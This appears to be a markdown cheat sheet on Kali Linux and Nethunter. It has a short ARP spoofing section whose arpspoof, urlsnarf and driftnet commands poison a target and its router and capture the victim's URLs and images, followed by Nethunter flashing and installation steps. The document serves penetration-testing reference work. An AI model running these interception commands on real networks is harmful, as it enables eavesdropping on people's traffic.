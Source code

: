 # Kali and Nethunter

## Kali

### Spoofing

- ARP spoofing


            # poison the client
            arpspoof -i {interface} -t {target} {router}
            # poison the router
            arpspoof -i {interface} -t {router} {target}
            
            # watch the urls flow through the router
            urlsnarf -i {interface}

            # watch the flowing images
            driftnet -i {interface}

## Nethunter

### Installation

- Preparation

    - Stock Image: [CyanogenMod](https://download.cyanogenmod.org/)
    - SuperSu Image: [SuperSU](https://download.chainfire.eu/969/SuperSU)
    - TeamWin Recovery Project Image: [TWRP](https://twrp.me/)
    - Kali Nethunter Image:

        > 0. [download pre-built images](https://www.offensive-security.com/kali-linux-nethunter-download/), or:
        > 1. checkout Nethunter from [Github](https://github.com/offensive-security/kali-nethunter)
        > 2. build Nethunter for your device: [tutorial](https://github.com/offensive-security/kali-nethunter/wiki/Building-Nethunter)

    - Optional

        - [Nethunter kernels](https://idlekernel.com/nethunter/nightly/)
        - [Xposed](http://dl-xda.xposed.info/framework/), [on XDA-Forum](http://forum.xda-developers.com/showthread.php?t=3034811)
        - Wireless Card Selection: [Nethunter](https://github.com/offensive-security/kali-nethunter/wiki/Wireless-Cards)

- Install (~1 hour)

    1. Flash Stock Image via fastboot, configure and reboot
    2. Flash TWRP via fastboot
    3. Flash SuperSu via TWRP
    4. Flash Nethunter via TWRP

    Or take advantage of the [scripts](https://github.com/offensive-security/nethunter-LRT).
    
### Features

- [Introduction](https://github.com/offensive-security/kali-nethunter/wiki#60-kali-nethunter-attacks-and-features)
